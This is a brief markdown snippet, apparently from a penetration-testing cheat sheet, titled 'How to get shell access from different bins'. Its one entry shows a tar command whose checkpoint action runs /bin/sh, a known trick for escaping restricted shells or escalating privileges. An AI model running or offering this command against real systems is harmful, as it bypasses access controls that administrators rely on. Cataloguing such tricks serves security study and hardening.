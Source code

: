 # How to get shell access from different bins

### Tar
`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`